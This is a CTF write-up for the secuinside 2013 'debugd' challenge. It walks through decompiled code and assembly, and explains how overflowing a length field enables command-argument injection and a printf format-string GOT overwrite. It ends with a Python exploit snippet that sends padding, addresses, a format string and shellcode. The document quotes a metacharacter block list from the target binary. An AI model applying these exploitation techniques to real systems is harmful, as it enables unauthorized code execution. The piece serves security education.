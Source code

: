```yaml
---
title: secuinside CTF 2013 Quals debugd writeup
author: scdeny
layout: post
permalink: /secuinside-ctf-debugd-writeup/
categories:
  - CTF
  - writeup
---
```

debugd is a 32-bit ELF, after open with IDA, we found function “service”:

    senddata(fd, "1. gdb vuln\n");
    senddata(fd, "2. objdump vuln\n");
    senddata(fd, "3. memory info\n");
    senddata(fd, "4. Report to admin\n");
    senddata(fd, "5. Exit\n");
    recvdata(fd, s1, 3, 10);
    

if we type 4, report() is call, the code is below:

    senddata(fd, "Title : ");
    recvdata(fd, title, 60, 10);
    senddata(fd, "Contents : ");
    recvdata(fd, contents, buff_len, 10);
    sprintf(command, "/home/solve1/script.py %s %s %s %s", contents, email, hello, title);
    if ( strchr(command, '`')
        || strchr(command, '|')
        || strchr(command, '&amp;')
        || strchr(command, '\'')
        || strchr(command, '"')
        || strchr(command, ';')
        || strchr(command, '(')
        || strchr(command, '{') )
    {
        senddata(fd, "Nope\n");
        result = 0;
    }
    else
    {
        popen(command, "r");
        content_len = strlen(contents);
        printf("%d\n%d\n%s\n%s\n%s\n", buff_len, content_len, email, hello, contents);
        senddata(fd, "Mail Sended\n");
        result = 0;
    }
    

Function report() ask us to input Title(60 bytes), Contents and then execute &#8220;/home/solve1/script.py&#8221;.

    size_t content_len; // eax@10
    char contents[256]; // [sp+2Ch] [bp-66Ch]@1
    char email[40]; // [sp+12Ch] [bp-56Ch]@1
    char hello[8]; // [sp+154h] [bp-544h]@1
    char v6[248]; // [sp+15Ch] [bp-53Ch]@1
    char command[1024]; // [sp+254h] [bp-444h]@1
    char title[56]; // [sp+654h] [bp-44h]@1
    int buff_len; // [sp+68Ch] [bp-Ch]@1
    

We found title is 56 bytes long, but we can input 60 bytes, so the last 4 bytes can overwrite buff_len. Then we can input as long Contents as we wanted. if contents is long enough, it can overwrite email[40], hello[8], v6[246], but not command. because if the last byte of v6[246] is not null, sprintf will get into circulation of move command to command.

In script.py, it execute /home/solve1/vuln, with argument argv[3], which is hello[8] from debugd. And then send the output of vuln to email argv[2], which is email[40] from debugd. The code is follow:

    to = sys.argv[2]
    msg = MIMEText(data)
    msg['subject'] = "hello"
    msg['From'] = sender
    msg['To'] = to
    
    data = os.popen("/home/solve1/vuln "+"'"+sys.argv[3]+"'").read()
    

From the vulnarability of debugd, wo can construct the the parameter to vuln, and change the email destination to ours.

We can type 2 to dump the assembly code of vuln, the main() function is very simple, after copy argv&#91;1] to local buffer [sep+0x20&#93;(this buffer is 0x100 byte long, and strncpy's third parameter specify the maxlen to 0x100), then it copy argv[1] to global buffer 0x804a060, and call printf function to print the buffer [esp+0x20], the all code is below:

    push   %ebp
    mov    %esp,%ebp
    and    $0xfffffff0,%esp
    sub    $0x120,%esp
    mov    0x8(%ebp),%eax
    mov    %al,0x1c(%esp)           ;argc
    mov    0xc(%ebp),%eax           ;argv
    add    $0x4,%eax
    mov    (%eax),%eax              ;argv[1]
    movl   $0x100,0x8(%esp)
    
    mov    %eax,0x4(%esp)
    lea    0x20(%esp),%eax
    mov    %eax,(%esp)
    call   8048370  ;argv[1]-&gt;esp+20
    mov    0xc(%ebp),%eax
    add    $0x4,%eax
    mov    (%eax),%eax
    movl   $0x100,0x8(%esp)
    
    mov    %eax,0x4(%esp)
    movl   $0x804a060,(%esp)
    call   8048370  ;argv[1]-&gt;0x804a060
    lea    0x20(%esp),%eax
    mov    %eax,(%esp)
    call   8048330      ;printf(esp+20)
    movl   $0x804a060,(%esp)
    call   8048340      ;getenv(0x804a060)
    mov    $0x0,%eax
    leave  
    ret
    

We can use the format vulnarability of printf to overwrite the got table of getenv() to execute our shell code, the exploit code is as follow:

    sock.send('4\x0A')
    print sock.recv(1024)
    sock.send('a'*56+'\x01\x01\x01\x40')
    print sock.recv(1024)
    sock.send("a"+"\x00"*255+myemail+"\x00"*(40-myemail)+"\x12\xa0\x04\x08"+"\x10\xa0\x04\x08"+"%2044u%8\$hn%39035u%9\$hn"+shellcode+"\x0A")